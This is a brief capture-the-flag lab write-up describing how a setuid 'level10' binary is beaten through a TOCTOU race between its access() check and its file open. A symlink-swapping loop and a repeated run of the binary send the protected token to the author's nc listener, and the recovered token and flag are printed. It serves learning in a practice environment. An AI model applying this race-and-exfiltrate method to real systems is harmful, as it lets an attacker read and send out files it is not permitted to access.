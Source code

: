 -same as before suid and token file
-strings on suid its a script that takes an ip and file and send the file to that ip in port 6969
-tried to send token to my ip using nc -l 6969 but we dont have permission for token
-created a symlink to the token still the same problem no permission even for the symlink
-so somthing check our id and check for permission I ran strings again and find out access google it searching for exploit and yes there is an exploit if you timed the creation of the file when acces executed then change it right before opening it will pass
-so I created a bash script that create symlink in infinite loop find the script on the same folder
-so sh /tmp/script.sh & to stay in background then ran while true; do ./level10 /tmp/link myIp; done and on my terminal nc -lk 6969 (k to stay listening)
-then I got :
	woupa2yuojeeaaed06riuj63c
-getflag => feulo4b72j7edeahuete3no7c

